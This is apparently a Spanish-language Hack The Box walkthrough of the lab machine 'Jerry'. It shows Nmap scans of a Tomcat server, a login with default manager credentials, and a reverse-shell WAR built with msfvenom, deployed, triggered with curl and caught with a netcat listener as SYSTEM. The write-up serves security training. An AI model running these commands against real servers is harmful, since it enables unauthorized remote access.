# Información General :





# Escaneo básico Nmap :
Como paso inicial para obtener información sobre nuestro objetivo, hacemos un escaneo basico de Nmap para saber los puertos abiertos y qué servicios están corriendo en la máquina objetivo, con los siguientes parametros:
- __-sC__ 	: set de scripts por default.
- __-sV __	: scripts de detección de versiones.
- __-p-__ 	: escanear los 65535 puertos de la máquina.
- __-T5__	: Indice de agresividad, en este caso el más alto y rápido debido a que es un entorno de pruebas controlado.
Nota: Nunca usar en pruebas a entornos reales. 
- __-oN \<nombre de archivo\>__	: guardar el resultado del escaneo en un archivo de formato nmap.
- __-Pn__	: no verificar si el host está activo y escanear los puertos directamente.
- __-v__	: modo verbose, a más _"v"_ mayor verbosidad.

```sql
root jerry # nmap -sC -sV -p- -T5 -oN jerry.nmap -Pn -vvv 10.10.10.95 
# Nmap 7.91 scan initiated Sun May 30 20:21:03 2021 as: nmap -sC -sV -p- -T5 -oN jerry.nmap -Pn -vvv 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up, received user-set (0.18s latency).
Scanned at 2021-05-30 20:21:04 -05 for 311s
Not shown: 65534 filtered ports
Reason: 65534 no-responses
PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 30 20:26:16 2021 -- 1 IP address (1 host up) scanned in 312.94 seconds
```


# Escaneo de vulnerabilidades :
Una vez nuestro escaneo inicial esté completo podemos proceder a un escaneo de vulnerabilidades con la flag __--script__ especificando la categoria de los scripts que deseamos, en este caso será `"vuln"` haciendo alución a la categoria vulnerabiliades de nmap.

Adicionalmente jugamos con algunos de los parametros antes mencionados y en vez de escanear todos los puertos nuevamente, seleccionaremos el puerto 8080 de la siguiente manera  `-p80` .

```sql
root jerry # nmap --script "vuln" -p8080 -oN jerry_vulns.nmap -Pn -v 10.10.10.95
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-30 20:30 -05
NSE: Loaded 105 scripts for scanning.
NSE: Script Pre-scanning.                                    
Initiating NSE at 20:30   
Completed NSE at 20:30, 10.00s elapsed   
Completed NSE at 20:30, 10.00s elapsed
Initiating NSE at 20:30
Completed NSE at 20:30, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 20:30
Completed Parallel DNS resolution of 1 host. at 20:30, 0.02s elapsed
Initiating SYN Stealth Scan at 20:30
Scanning 10.10.10.95 [1 port]
Discovered open port 8080/tcp on 10.10.10.95
Completed SYN Stealth Scan at 20:30, 0.15s elapsed (1 total ports)
NSE: Script scanning 10.10.10.95.
Initiating NSE at 20:30
Stats: 0:03:46 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE: Active NSE Script Threads: 1 (1 waiting)
NSE Timing: About 99.07% done; ETC: 20:34 (0:00:02 remaining)
Completed NSE at 20:35, 286.27s elapsed
Initiating NSE at 20:35
Completed NSE at 20:35, 0.47s elapsed
Nmap scan report for 10.10.10.95
Host is up (0.11s latency).

PORT     STATE SERVICE
8080/tcp open  http-proxy
| http-enum: 
|   /examples/: Sample scripts
|   /manager/html/upload: Apache Tomcat (401 Unauthorized)
|   /manager/html: Apache Tomcat (401 Unauthorized)
|_  /docs/: Potentially interesting folder
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/

NSE: Script Post-scanning.
Initiating NSE at 20:35
Completed NSE at 20:35, 0.00s elapsed
Initiating NSE at 20:35
Completed NSE at 20:35, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 297.40 seconds
           Raw packets sent: 1 (44B) | Rcvd: 1 (44B)

```
# Foothold:

Encontramos en un inicio que tenemos un gestor de aplicaciones web Apache Tomcat, para esto googleando un poco averiguamos que el Manager App es a donde debemos apuntar para obtener un posible escalamiento con una cuenta con privilegios administrativos.




# Bypassing Tomcat:
Ya que no tenemos credenciales aún, googleamos por posibles credenciales por defecto. Encontramos un repositorio con un recopilado especifico para Apache Tomcat.

https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown





En un inicio ingresamos una de las contraseñas por defecto de la lista y vemos que el mensaje de error nows muestra un usuario y contraseña por default:
username : tomcat
password : s3cret



Ahora notamos que no podemos reingresar al login del tomcat, esto se soluciona de una manera clara y sencilla, usemos un navegador de incognito, el cual no almacena ninguna cookie ni credenciales en cache:





Ahora que tenemos acceso al panel de control del tomcat podemos empezar a testear, para ello googleamos por posibles exploits para tomcat y encontramos que una de las maneras para obtener una shell remota es subir una aplicacion java, en este caso un .war malicioso.



## Creación del war malicioso:

Para este paso utilizaremos una herramienta del modulo de metasploit llamada __msfvenom__, para lo cual deberemos especificarle lo siguiente: 
- Payload: `-p java/jsp_shell_reverse_tcp`
- Listen Host: `LHOST=<nuestra ip asignada en la red de HTB>`
- Listen Port: `LPORT=8000`
- Formato: `-f war`
- Output name: `-o retr0.war`

root jerry # msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.21 LPORT=8000 -f war -o retr0.war 



Lo subimos mediante la interfaz gráfica:





## Reverse shell:
Ahora que ya tenemos nuestra app maliciosa subida, podemos usar o bien la interfaz gráfica o la consola para poder accede a ella y obtener nuestra shell reversa.

El url al que debemos ingresar será el siguiente:

http://10.10.10.95:8080/retr0/

En esta ocasion utilizaré la herramienta curl para hacer la petición desde la terminal y ver paralelamente cualquier cambio en una misma ventana, para esto visualizaré la estructura de los archivos de nuestro war malicioso con el comando:

`root jerry # jar -ft retr0.war`

De esta manera nuestro comando curl será: 

`curl http://10.10.10.95:8080/retr0/hulsxiaggcmweak.jsp`

Y usaremos netcat con los parametros:
- `-l`  -> local
- `-n` -> resolver unicamente direcciones IP y no DNS
- `-v` -> verbose.
- `-p` -> puerto
para tener conexión de escucha en el puerto 8000 e interactuar con la caja:

`nc -lvnp 8000`



Ahora verificamos el usuario y privilegios que este tiene:





Vemos que somos __NT AUTHORITY/SYSTEM__, el usuario sistema con privilegios totales en la máquina.

Ahora el juego no acaba ahí debemos buscar las flags, para ello vamos a la carpeta  __C:\\Users\\__ y visualizamos que solo tenemos el usuario __Administrador__ habilitado, ingresamos a la carpeta _Desktop_ y vemos que el creador nos dejó un regalo:

